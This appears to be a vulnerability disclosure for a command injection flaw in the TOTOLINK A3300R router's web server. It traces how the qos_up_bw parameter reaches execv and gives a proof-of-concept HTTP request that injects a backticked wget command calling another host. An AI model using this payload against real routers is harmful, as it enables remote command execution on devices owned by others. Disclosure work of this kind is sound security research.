






# A3300R Vulnerability

Vendor:TOTOLINK

Product:A3300R

Version:17.0.0cu.557_b20221024

Vulnerability: Command Injection

Download:http://totolink.id/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

Author:Lv Hongwei


## Descriptions

We found a Command Injection vulnerability  in `shttpd` , allows remote attackers to execute arbitrary OS commands from a crafted request:

<div  align="center"></div>

In  sub_410F24 function, it reads in a user-provided parameter `qos_up_bw` and passes its value to Uci_Set_Str function.

<div  align="center"></div>

However ,the value of the `qos_up_bw`  is inserted into `v11`  using `snprintf`,and the value of v11 will be handled by the function CsteSystem.

<div  align="center"></div>

Finally,the command will be executed by  execv() in CsteSystem

<div  align="center"></div>


## Proof of Concept (PoC)

We set `qos_up_bw` as **`wget 192.168.6.1:7777/testpoc`** , and the router will execute it,such as:

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.6.2
Content-Length: 71
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Origin: http://192.168.6.2
Referer: http://192.168.6.2/phone/login.html
Accept-Encoding: gzip, deflate, br
Cookie: SESSION_ID=2:1769648739:2
Connection: keep-alive

{"topicurl":"setSmartQosCfg",
"addEffect":"3",
"qos_up_bw":"`wget 192.168.6.1:7777/testpoc`"}
```

<div  align="center"></div>

## Result

In Busybox terminal:

<div  align="center"></div>

In Ubuntu terminal：

<div  align="center"></div>


